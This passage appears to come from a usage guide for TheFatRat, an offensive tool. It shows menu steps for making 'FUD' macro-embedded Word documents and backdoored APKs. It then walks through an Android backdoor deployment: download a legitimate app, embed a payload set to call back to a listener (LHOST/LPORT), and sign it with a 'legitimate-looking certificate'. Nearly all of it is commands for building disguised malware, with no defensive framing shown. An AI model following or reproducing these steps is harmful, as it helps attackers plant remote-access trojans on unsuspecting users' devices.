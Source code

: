 #### 2. Macro-Embedded Documents

```bash
# From the main menu
3  # Create Fud Backdoor with Microsoft Office

# Select document type
1  # Microsoft Word
```

#### 3. Backdoored APK Files

```bash
# From the main menu
6  # Android Payload & Listener

# Select backdoor type
1  # Embed Payload In Original APK
```

### Example: Android Backdoor Deployment

This example demonstrates creating and deploying an Android backdoor:

1. Identify a legitimate application to backdoor:

```bash
# Download a legitimate APK (for example, a game)
wget https://example.com/legitimate_app.apk -O /tmp/original.apk
```

2. Create the backdoored application:

```bash
fatrat

# Select option 6 (Android)
6

# Select option 1 (Original APK Backdoor)
1

# Provide path to the original APK
/tmp/original.apk

# Set listener details
LHOST: 192.168.1.100
LPORT: 4444

# Name the output file
backdoored_app.apk
```

3. Sign the APK with a legitimate-looking certificate:

```bash
# Generate signing key
keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

# Sign the APK
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore backdoored_app.apk alias_name
```
